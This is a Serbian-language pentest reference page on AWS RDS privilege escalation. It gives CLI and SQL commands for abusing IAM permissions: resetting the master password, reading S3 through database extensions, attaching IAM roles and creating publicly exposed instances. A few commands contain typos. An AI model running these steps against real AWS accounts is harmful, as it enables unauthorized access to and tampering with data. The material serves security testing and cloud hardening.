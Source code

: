 # AWS - RDS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## RDS - Relational Database Service

Za više informacija o RDS pogledajte:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

Sa tom dozvolom napadač može **promeniti lozinku glavnog korisnika**, i prijavu unutar baze podataka:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> Moraćete da budete u mogućnosti da **kontaktirate bazu podataka** (obično su dostupne samo iz unutrašnjih mreža).

**Potencijalni uticaj:** Pronaći osetljive informacije unutar baza podataka.

### rds-db:connect

Prema [**dokumentaciji**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), korisnik sa ovom dozvolom može da se poveže na DB instancu.

### Zloupotreba RDS Role IAM dozvola

#### Postgresql (Aurora)

> [!TIP]
> Ako pokrenete **`SELECT datname FROM pg_database;`** i pronađete bazu podataka pod nazivom **`rdsadmin`**, znate da ste unutar **AWS postgresql baze podataka**.

Prvo možete proveriti da li je ova baza podataka korišćena za pristup bilo kojoj drugoj AWS usluzi. Možete to proveriti gledajući instalirane ekstenzije:
```sql
SELECT * FROM pg_extension;
```
Ako pronađete nešto poput **`aws_s3`**, možete pretpostaviti da ova baza podataka ima **neku vrstu pristupa S3** (postoje i druge ekstenzije kao što su **`aws_ml`** i **`aws_lambda`**).

Takođe, ako imate dozvole da pokrenete **`aws rds describe-db-clusters`**, možete videti da li **klaster ima neku IAM ulogu prikačenu** u polju **`AssociatedRoles`**. Ako ima, možete pretpostaviti da je baza podataka **pripremljena za pristup drugim AWS uslugama**. Na osnovu **imena uloge** (ili ako možete dobiti **dozvole** uloge) mogli biste **pretpostaviti** koji dodatni pristup baza podataka ima.

Sada, da biste **pročitali datoteku unutar kante**, morate znati punu putanju. Možete je pročitati sa:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ako imate **sirove AWS akreditive**, takođe ih možete koristiti za pristup S3 podacima sa:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql **ne treba da menja nijednu promenljivu parametarskih grupa** da bi mogao da pristupi S3.

#### Mysql (Aurora)

> [!TIP]
> Unutar mysql-a, ako pokrenete upit **`SELECT User, Host FROM mysql.user;`** i postoji korisnik pod imenom **`rdsadmin`**, možete pretpostaviti da ste unutar **AWS RDS mysql db**.

Unutar mysql-a pokrenite **`show variables;`** i ako promenljive kao što su **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, imaju vrednosti, možete pretpostaviti da je baza podataka spremna za pristup S3 podacima.

Takođe, ako imate dozvole da pokrenete **`aws rds describe-db-clusters`** možete proveriti da li klaster ima neku **povezanu ulogu**, što obično znači pristup AWS uslugama.

Sada, da biste **pročitali datoteku unutar bucket-a** potrebno je da znate punu putanju. Možete je pročitati sa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Napadač sa dozvolama `rds:AddRoleToDBCluster` i `iam:PassRole` može **dodati određenu ulogu postojećem RDS instanci**. Ovo bi moglo omogućiti napadaču da **pristupi osetljivim podacima** ili izmeni podatke unutar instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.\
Napomena da neki DB-ovi zahtevaju dodatne konfiguracije kao što je Mysql, koji treba da specificira ARN u grupama parametara.

### `rds:CreateDBInstance`

Samo sa ovom dozvolom napadač bi mogao da kreira **novu instancu unutar klastera** koji već postoji i ima **IAM ulogu** prikačenu. Neće moći da promeni lozinku glavnog korisnika, ali bi mogao da izloži novu instancu baze podataka internetu:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: Test

Napadač sa dozvolama `rds:CreateDBInstance` i `iam:PassRole` može **napraviti novu RDS instancu sa određenom ulogom**. Napadač može zatim potencijalno **pristupiti osetljivim podacima** ili izmeniti podatke unutar instance.

> [!WARNING]
> Neki zahtevi za ulogu/profil instance koji se treba prikačiti (iz [**ovde**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - Profil mora postojati u vašem nalogu.
> - Profil mora imati IAM ulogu koju Amazon EC2 ima dozvolu da preuzme.
> - Ime profila instance i ime povezane IAM uloge moraju početi sa prefiksom `AWSRDSCustom`.
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Potencijalni Uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Napadač sa dozvolama `rds:AddRoleToDBInstance` i `iam:PassRole` može **dodati određenu ulogu postojećoj RDS instanci**. To bi moglo omogućiti napadaču da **pristupi osetljivim podacima** ili izmeni podatke unutar instance.

> [!WARNING]
> DB instanca mora biti van klastera za ovo
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.

{{#include ../../../banners/hacktricks-training.md}}
